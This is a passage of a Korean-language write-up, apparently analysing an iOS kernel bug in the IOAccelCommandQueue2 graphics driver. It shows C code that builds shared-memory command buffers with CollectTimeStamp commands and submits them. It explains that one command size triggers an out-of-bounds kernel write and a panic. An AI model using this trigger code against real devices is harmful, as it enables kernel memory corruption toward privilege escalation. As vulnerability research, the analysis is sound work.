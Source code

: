 ```cpp
```

다시 돌아와서
이제 8바이트 헤더(명령 타입과 크기)의 `IOAccelKernelCommand`, 그 뒤에 오는 타입별 구조화된 데이터로 구성해준다. 구성된 데이터에 관해서는 “공유메모리가 어느 커널 주소에 해당되는지 확인하기” 단계에서 더 자세히 알아보겠다.
IOAccelCommandQueue2_submit_command_buffers를 호출하면 타임스탬프 파싱함과 동시에 
각각의 0x4000 크기의 공유된 커널 메모리에 값을 쓸려고 할것이다.

```cpp
...

	struct {
		struct IOAccelCommandQueueSubmitArgs_Header header;
		struct IOAccelCommandQueueSubmitArgs_Command command;
	} submit_args = {};
	submit_args.header.count = 1;
	submit_args.command.command_buffer_shmem_id = command_buffer_shmem->shmem_id;
	submit_args.command.segment_list_shmem_id   = segment_list_shmem->shmem_id;

	struct IOAccelSegmentListHeader *slh = (void *)segment_list_shmem->data;
	slh->length = 0x100;
	slh->segment_count = 1;
	struct IOAccelSegmentResourceListHeader *srlh = (void *)(slh + 1);
	srlh->kernel_commands_start_offset = 0;
	srlh->kernel_commands_end_offset = 0x4000;

	struct IOAccelKernelCommand_CollectTimeStamp *cmd1 = (void *)command_buffer_shmem->data;
	cmd1->command.type = 2;
	cmd1->command.size = 0x4000 - 8;
	struct IOAccelKernelCommand_CollectTimeStamp *cmd2 = (void *)((uint8_t *)cmd1 + cmd1->command.size);
	cmd2->command.type = 2;
	cmd2->command.size = 8;

#define KTRW 0

	printf("IOAccelCommandQueue2::submit_command_buffers()\n");
#if KTRW
	sleep(4);
#endif
	IOAccelCommandQueue2_submit_command_buffers(IOAccelCommandQueue2, &submit_args.header, sizeof(submit_args));
	printf("timestamp = %llx\n", cmd1->timestamp);
#if KTRW
	sleep(4);
#endif
```

유저랜드와 공유하는 커널 공간에는 0x4000 크기의 segment list와 그 뒤에 0x4000 크기의 command buffer가 들어간다.

하지만, `cmd1->command.size = 0x4000 - 8;` 인 경우 패닉이 발생하는데, 
이 경우, command buffer 뒤에 맵핑되지 않은 공간의 첫 8바이트에다가 OOB Write하기 때문에 패닉이 발생한다.
